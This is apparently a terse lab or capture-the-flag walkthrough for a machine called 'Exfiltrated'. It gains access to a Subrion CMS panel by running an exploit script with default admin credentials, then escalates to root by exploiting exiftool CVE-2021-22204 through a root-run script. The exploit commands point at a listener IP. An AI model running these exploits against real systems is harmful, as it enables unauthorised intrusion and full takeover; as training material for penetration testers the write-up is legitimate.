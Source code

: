 
- Initial Access was easy as they were using Subrion CMS.
```bash
 python 49876.py -u http://exfiltrated.offsec/panel/ -l admin -p admin
```
- Noticed a file /opt/image-exif.sh which is executed by root and has an exploit for exiftool

```
https://github.com/UNICORDev/exploit-CVE-2021-22204
```

```bash
 python3 exploit-CVE-2021-22204.py -s 192.168.45.206 80
```
